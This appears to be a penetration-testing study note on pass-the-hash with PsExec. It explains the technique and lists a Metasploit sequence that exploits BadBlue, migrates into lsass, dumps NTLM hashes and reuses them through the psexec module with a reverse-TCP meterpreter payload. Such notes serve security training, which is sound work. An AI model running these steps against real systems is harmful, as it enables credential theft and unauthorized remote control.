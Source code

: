 ```yaml
---
up: "[[Windows Post Exploitation]]"
---
```


# Pass-the-hash with PSExec

- Pass The Hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately
- We can use the PsExec module to legitimately authenticate with the target system via SMB
- Allows us to obtain access via legitimate credentials as opposed to obtaining access via service exploitation

## Demonstration

```bash
> use exploit/windows/http/badblue_passthru
> set target <target>
> exploit
m> pgrep lsass
m>  migrate <pid>
m>  getuid
m> hashdump
m> ^Z
> use exploit/windows/smb/psexec
> set payload windows/x64/meterpreter/reverse_tcp
> set SMBUser <user>
> set SMBPass <hash>
> exploit
m>
```
